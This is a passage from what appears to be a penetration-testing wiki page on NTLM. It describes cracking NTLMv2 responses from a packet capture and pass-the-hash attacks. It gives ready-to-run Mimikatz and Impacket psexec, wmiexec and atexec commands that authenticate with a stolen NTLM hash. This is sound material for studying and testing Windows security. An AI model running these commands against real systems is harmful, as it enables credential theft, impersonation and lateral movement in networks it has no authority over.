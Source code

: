 The **second response** is created using **several values** (a new client challenge, a **timestamp** to avoid **replay attacks**...)

If you have a **pcap that has captured a successful authentication process**, you can follow this guide to get the domain, username , challenge and response and try to creak the password: [https://research.801labs.org/cracking-an-ntlmv2-hash/](https://www.801labs.org/research-portal/post/cracking-an-ntlmv2-hash/)

## Pass-the-Hash

**Once you have the hash of the victim**, you can use it to **impersonate** it.\
You need to use a **tool** that will **perform** the **NTLM authentication using** that **hash**, **or** you could create a new **sessionlogon** and **inject** that **hash** inside the **LSASS**, so when any **NTLM authentication is performed**, that **hash will be used.** The last option is what mimikatz does.

**Please, remember that you can perform Pass-the-Hash attacks also using Computer accounts.**

### **Mimikatz**

**Needs to be run as administrator**

```bash
Invoke-Mimikatz -Command '"sekurlsa::pth /user:username /domain:domain.tld /ntlm:NTLMhash /run:powershell.exe"'
```

This will launch a process that will belongs to the users that have launch mimikatz but internally in LSASS the saved credentials are the ones inside the mimikatz parameters. Then, you can access to network resources as if you where that user (similar to the `runas /netonly` trick but you don't need to know the plain-text password).

### Pass-the-Hash from linux

You can obtain code execution in Windows machines using Pass-the-Hash from Linux.\
[**Access here to learn how to do it.**](https://github.com/carlospolop/hacktricks/blob/master/windows/ntlm/broken-reference/README.md)

### Impacket Windows compiled tools

You can download[ impacket binaries for Windows here](https://github.com/ropnop/impacket_static_binaries/releases/tag/0.9.21-dev-binaries).

* **psexec\_windows.exe** `C:\AD\MyTools\psexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.my.domain.local`
* **wmiexec.exe** `wmiexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.dollarcorp.moneycorp.local`
* **atexec.exe** (In this case you need to specify a command, cmd.exe and powershell.exe are not valid to obtain an interactive shell)`C:\AD\MyTools\atexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.dollarcorp.moneycorp.local 'whoami'`
* There are several more Impacket binaries...

### Invoke-TheHash
